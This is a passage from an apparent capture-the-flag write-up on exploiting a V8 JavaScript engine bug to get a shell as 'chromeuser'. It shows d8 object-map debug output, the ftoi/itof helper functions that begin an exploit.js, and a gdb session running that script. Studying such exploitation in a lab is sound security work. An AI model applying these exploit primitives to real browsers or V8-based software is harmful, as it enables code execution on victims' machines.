 ```
 - map: 0x25cc08284f69 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x25cc08241351 <Object map = 0x25cc082801c1>
 - elements: 0x25cc080406e9 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x25cc080406e9 <FixedArray[0]> {
    #a: 1337 (const data field 0)
    #b: 1338 (const data field 1)
 }
...[snip]...
{a: 1337, b: 1338}

```

Both objects have the same map, 0x25cc08284f69.

## Shell as chromeuser

### v8 Exploit Primitives

[Faith’s writeup of oob-v8](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) provides a nice roadmap for exploitation here, and I’ll try to call out where I diverge from it.

#### ftoi and itof

I’ll start my script with a couple of helper functions. Because my out of bounds reads will be looking to return doubles (floats), I’ll want some code to convert those back to hex values. Similarly, I’ll need a way to take an int to a float to write. These functions come directly from the above post:

```

/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

```

I’ll save those in my `exploit.js`.

Now that I’m going to be reading / writing across bounds, I’ll use the release `d8`:

```

df@buntu:~/v8$ gdb -q out.gn/x64.release/d8
GEF for linux ready, type `gef' to start, `gef config' to configure
80 commands loaded for GDB 9.2 using Python engine 3.8
Reading symbols from out.gn/x64.release/d8...
(No debugging symbols found in out.gn/x64.release/d8)
gef➤  run --allow-natives-syntax --shell exploit.js 
Starting program: /home/df/v8/out.gn/x64.release/d8 --allow-natives-syntax --shell exploit.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7f4f99173700 (LWP 35638)]
V8 version 8.5.0 (candidate)
d8> 
```